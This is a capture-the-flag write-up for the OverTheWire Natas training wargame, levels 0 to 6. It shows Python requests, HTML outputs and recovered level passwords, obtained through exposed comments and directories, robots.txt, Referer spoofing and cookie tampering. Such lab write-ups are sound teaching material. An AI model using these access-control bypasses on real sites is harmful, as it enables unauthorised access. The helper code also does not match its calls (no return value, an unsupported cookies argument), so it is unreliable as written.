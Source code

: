 # Natas

https://overthewire.org/wargames/natas/

> Natas teaches the basics of serverside web-security.

> Each level of natas consists of its own website located at http://natasX.natas.labs.overthewire.org, where X is the level number. There is no SSH login. To access a level, enter the username for that level (e.g. natas0 for level 0) and its password.

> Each level has access to the password of the next level. Your job is to somehow obtain that next password and level up. All passwords are also stored in /etc/natas_webpass/. E.g. the password for natas5 is stored in the file /etc/natas_webpass/natas5 and only readable by natas4 and natas5.

> Start here:

> Username: natas0
> 
> Password: natas0
> 
> URL:      http://natas0.natas.labs.overthewire.org

## NatasX
```python
def natasX(x, pwd, endpoint="", headers={}):
    url = f'http://natas{x}.natas.labs.overthewire.org/{endpoint}'
    username = f"natas{x}"

    r = requests.get(url, auth=(username, pwd), headers=headers)

    print(r.text)
 ```

## Natas0
https://overthewire.org/wargames/natas/natas0.html

> Natas Level 0

> Username: natas0

> Password: natas0

> URL:      http://natas0.natas.labs.overthewire.org

```python
print(natasX.natasX(0,"natas0").text)
```

**Output**

```html
<div id="content">
You can find the password for the next level on this page.

<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
</div>
```

## Natas1
https://overthewire.org/wargames/natas/natas1.html

>Natas Level 0 → Level 1

>Username: natas1

>URL:      http://natas1.natas.labs.overthewire.org



```python
print(natasX.natasX(1,"gtVrDuiDfck831PqWsLEZy5gyDz1clto").text)
```

**Output**

```html
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">
<h1>natas1</h1>
<div id="content">
You can find the password for the
next level on this page, but rightclicking has been blocked!

<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
</div>
</body>
```

## Natas2
https://overthewire.org/wargames/natas/natas2.html

> Natas Level 1 → Level 2

> Username: natas2

> URL:      http://natas2.natas.labs.overthewire.org

```python
natas = natasX
# print(natas.natasX(2,"ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi").text)
print(natas.natasX(2,"ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi","files/users.txt").text)
```

**Output**

```text
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

## Natas3
https://overthewire.org/wargames/natas/natas3.html

> Natas Level 2 → Level 3

> Username: natas3

> URL:      http://natas3.natas.labs.overthewire.org

```python
natas = natasX

# print(natas.natasX(3,"sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14").text)
# print(natas.natasX(3,"sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14", "/robots.txt").text)
# print(natas.natasX(3,"sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14", "/s3cr3t/").text)
print(natas.natasX(3, "sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14", "/s3cr3t/users.txt").text)
```


**Output**

```html
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## Natas4
https://overthewire.org/wargames/natas/natas4.html

> Natas Level 3 → Level 4

> Username: natas4

> URL:      http://natas4.natas.labs.overthewire.org

```python
# print(natasX.natasX(4, "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ").text)
print(natasX.natasX(4, "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ", "", {'referer': "http://natas5.natas.labs.overthewire.org/"}).text)
```

**Output**

```html
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
```

## Natas5
https://overthewire.org/wargames/natas/natas5.html

> Natas Level 4 → Level 5

> Username: natas5

> URL:      http://natas5.natas.labs.overthewire.org

```python
print(natas.natasX(5, "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq", cookies={'loggedin': '1'}).text)
```

**Output**

```html
<div id="content">
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>
</body>
```

## Natas6
https://overthewire.org/wargames/natas/natas6.html

> Natas Level 5 → Level 6

> Username: natas6

> URL:      http://natas6.natas.labs.overthewire.org

**Searchbox Source Code**
```php
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
```

```python
natas = natasX
# print(natas.natasX(6, "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1").text)
print(natas.natasX(6, "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1", endpoint="/includes/secret.inc").text)
# Enter "FOEIUWGHFEEUHOFUOIU" into the Searchbox it will result in "natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9"
```

**Output**

```html
<div id="content">

Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
<form method="post">
Input secret: <input name="secret"><br>
<input type="submit" name="submit">
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

## Natas7
https://overthewire.org/wargames/natas/natas7.html

> Natas Level 6 → Level 7

> Username: natas7

> URL:      http://natas7.natas.labs.overthewire.org

```python
```

**Output**

```html
```

```
 _________
< goodbye >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

```
